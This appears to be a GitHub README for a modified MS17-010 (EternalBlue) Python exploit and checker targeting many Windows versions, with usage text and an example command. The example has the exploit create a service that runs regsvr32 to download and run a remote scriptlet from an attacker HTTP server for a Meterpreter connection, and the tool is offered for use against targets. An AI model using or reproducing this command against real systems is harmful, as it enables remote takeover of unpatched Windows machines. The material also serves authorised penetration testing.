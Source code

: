 MS17-010: Python
=================

All credit goes to Worawit: 

[Worawit Wang: GitHub](https://github.com/worawit/MS17-010/)

[Worawit Wang: Twitter](https://twitter.com/sleepya_/)

Worawit Wang released a collection of Python exploits for MS17-010. These tools worked far more reliably than the Metasploit modules but didn't have much of a payload besides writing a pwned.txt to the C:/. However, Worawit Wang did add functionality for creating a service. 

Korey McKinley wrote an [article](https://lmgsecurity.com/manually-exploiting-ms17-010/) utilising that function to create a service which used regsvr32 to call back to Meterpreter and create a full Meterpreter connection. I'd never seen that path to exploitation, so I thought I'd modify zzz_exploit.py with Korey's logic and make the script more dynamic and user friendly. 

However, the module Korey used in that blog article was not available in my version of Metasploit. It is now called **web_delivery**. 

There are two pieces, `zzz_checker.py` and `zzz_exploit.py`. Both self-explanatory.

***

Exploit Usage
=============

```
usage: zzz_exploit.py [-h] [-u] [-p] -t  -c  [-P] [--version]

Tested versions:
1 Windows 2016 x64
2 Windows 10 Pro Vuild 10240 x64
3 Windows 2012 R2 x64
4 Windows 8.1 x64
5 Windows 2008 R2 SP1 x64
6 Windows 7 SP1 x64
7 Windows 2008 SP1 x64
8 Windows 2003 R2 SP2 x64
9 Windows XP SP2 x64
10  Windows 8.1 x86
11  Windows 7 SP1 x86
12  Windows 2008 SP1 x86
13  Windows 2003 SP2 x86
14  Windows XP SP3 x86
15  Windows 2000 SP4 x86

optional arguments:
  -h, --help        show this help message and exit
  -u , --user       username to authenticate with
  -p , --password   password for specified user
  -t , --target     Target for exploitation
  -c , --command    Command to add to service
  -P , --pipe       Pipe to connect to
  --version         show program's version number and exit

Example: python zzz_exploit -t 192.168.0.1 -c 'regsvr32 /s /n /u /i:http://192.168.0.1:9000/1EsrjpXH2pWdgd.sct scrobj.dll'
```

Checker Usage
=============

```
usage: zzz_checker.py [-h] -t  [-c]

MS17-010 Checker

optional arguments:
  -h, --help           show this help message and exit
  -t , --targets       Target(s) to attack
  -c , --credentials   Credentials to use
```